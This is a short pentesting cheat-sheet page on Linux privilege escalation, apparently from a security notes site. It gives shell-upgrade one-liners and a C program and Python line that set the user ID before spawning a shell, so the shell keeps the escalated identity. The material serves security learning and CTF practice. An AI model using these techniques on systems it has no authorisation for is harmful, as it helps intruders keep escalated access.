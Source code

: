 ```yaml
---
layout: default
title: Linux
parent: Privilege Escalation
---
```


# Linux Privilege Escalation
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Upgrading Shells
Spawning shells
```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```
```shell
echo os.system('/bin/bash')
```
```shell
/bin/sh -i
```

Spawning shells and maintaining euid and groups
```shell
python -c 'import os,pty; os.setresuid(new_id,new_id,new_id); pty.spawn("/bin/bash")'
```
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main() {
    setreuid(1001,1001);
    setegid(1001);
    system("/bin/sh");
    return 0;
}
```
- Without:
    - Pre: &nbsp; `uid=1000(<u1>) gid=1000(<g1>) euid=1001(<u2>) groups=1001(<g2>),1000(<g1>)`
    - Post: `uid=1000(<u1>) gid=1000(<g1>)                 groups=1000(<g1>)`
- With:
    - Pre: &nbsp; `uid=1000(<u1>) gid=1000(<g1>) euid=1001(<u2>) groups=1001(<g2>),1000(<g1>)`
    - Post: `uid=1001(<u2>) gid=1000(<g1>)                 groups=1001(<g2>),1000(<g1>)`
